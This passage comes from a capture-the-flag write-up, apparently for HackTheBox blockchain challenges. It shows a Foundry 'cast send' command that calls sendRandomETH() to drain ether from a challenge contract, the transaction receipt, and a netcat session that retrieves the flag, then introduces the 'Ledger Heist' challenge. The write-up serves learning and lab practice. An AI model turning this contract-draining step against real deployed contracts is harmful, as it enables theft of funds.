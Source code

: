 ```bash
depositNonce             null
```

After updating the bounds, I called the `sendRandomETH()` function, which drained at least the required 10 ether from the target contract and allowed me to get the flag.

```bash
$ cast send --private-key $PK -f $ATTACKER --rpc-url $RPC $TARGET "sendRandomETH()"

blockHash               0x9739649d9e6ba6e8c8e39fee837a831de9c5429ed4caa63e8ec8e8a1727a3c5b
blockNumber             3
contractAddress
cumulativeGasUsed       30463
effectiveGasPrice       3000000000
from                    0x6E4169b7A6c32528D49835CFdb1B4a6a0d27f3Cf
gasUsed                 30463
logs                    []
logsBloom               0x000000000000000000000000...
root
status                  1
transactionHash         0xc9d12df171dee3f1cd8f4620d85c22aae557d4ba583910171b9469f219aed354
transactionIndex        0
type                    2
to                      0xEC9a50cbE92645C537d3645e714eDffD85055917
depositNonce             null
```

```bash
$ nc 94.237.63.2 38694
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 3
HTB{1_f0rg0r_s0m3_U}
```

## Ledger Heist [hard]

### Description

`Amidst the dystopian chaos, the LoanPool stands as a beacon for the oppressed, allowing the brave to deposit tokens in support of the cause. Your mission, should you choose to accept it, is to exploit the system's vulnerabilities and siphon tokens from this pool, a daring act of digital subterfuge aimed at weakening the regime's economic stronghold. Success means redistributing wealth back to the people, a crucial step towards undermining the oppressors' grip on power.`

Because I didn't solve Ledger Heist during the challenge, this writeup provides a great solution that I learned from: [chovid99 Ledger Heist](https://chovid99.github.io/posts/cyber-apocalypse-2024-blockchain-hardware/#ledger-heist-hard).